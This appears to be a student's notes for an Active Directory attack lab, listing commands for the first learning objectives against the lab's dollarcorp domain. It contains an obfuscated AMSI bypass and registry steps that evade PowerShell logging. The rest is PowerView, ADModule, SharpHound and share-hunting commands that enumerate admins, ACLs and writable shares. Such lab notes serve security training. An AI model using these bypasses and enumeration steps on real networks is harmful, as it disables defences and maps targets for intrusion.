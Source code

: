 ### SUMMARY 
- [Learning Objective 1](#Learning-Objective-1)
- [Learning Objective 2](#Learning-Objective-2)
- [Learning Objective 3](#Learning-Objective-3)
- [Learning Objective 4](#Learning-Objective-4)

### AMSI bypass
```
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + 
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GetvarI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( 
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f 
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( 
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Start a PowerShell session using Invisi-Shell to avoid enhanced logging
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```
C:\AD\Tools>set COR_ENABLE_PROFILING=1
C:\AD\Tools>set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /ve /t REG_SZ /d 
"C:\AD\Tools\InviShell\InShellProf.dll" /f
The operation completed successfully.
C:\AD\Tools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

### Load PowerView
```
. C:\AD\Tools\PowerView.ps1
```

### Learning Objective 1
#### Enumerate following for the dollarcorp domain:
* Users
* Computers
* Domain Administrators
* Enterprise Administrators
* Use BloodHound to identify the shortest path to Domain Admins in the dollarcorp domain.
* Find a file share where studentx has Write permissions.

### PowerView
**List informations about all users** 
```
Get-DomainUser
```

**List a specific property of all the users**
```
Get-DomainUser | select -ExpandProperty samaccountname
```

**Enumerate member computers**
```
Get-DomainComputer | select -ExpandProperty dnshostname
```

**See details of the Domain Admins group**
```
Get-DomainGroup -Identity "Domain Admins"
```

**Enumerate members of the Domain Admins group**
```
Get-DomainGroupMember -Identity "Domain Admins"
```

**Enumerate members of the Enterprise Admins group**
```
Get-DomainGroupMember -Identity "Enterprise Admins"
```

**Query the root domain as Enterprise Admins group is present only in the root of a forest**
```
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain moneycorp.local
```
### ADModule

**Import ADModule**
```
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
```

**Enumerate All users***
```
Get-ADUser -Filter *
```

**List specific properties**
```
Get-ADUser -Filter * -Properties *| select Samaccountname,Description
```

**List All Computers**
```
Get-ADComputer -Filter *
```

**Enumerate Domain Administrators**
```
Get-ADGroupMember -Identity 'Domain Admins'
```

**Enumerate the Enterprise Administrators**
```
Get-ADGroupMember -Identity 'Enterprise Admins' -Server moneycorp.local
```

### BloodHound ingestores
```
C:\AD\Tools\BloodHound-master\BloodHoundmaster\Collectors\SharpHound.exe --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets --excludedcs
```

### PowerHuntShares
```
Import-Module C:\AD\Tools\PowerHuntShares.psm1
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\AD\Tools\ -HostList C:\AD\Tools\servers.txt

[*][12/24/2024 04:02] - All files written to C:\AD\Tools\\SmbShareHunt12242024040138
```

### Learning Objective 2
#### Enumerate following for the dollarcorp domain:
* ACL for the Domain Admins group
* ACLs where studentx has interesting permissions
* Analyze the permissions for studentx in BloodHound UI

**Enumerate ACLs for the Domain Admins Group**
```
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
```

**check for modify rights/permissions for the studentx**
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentx"} 
```





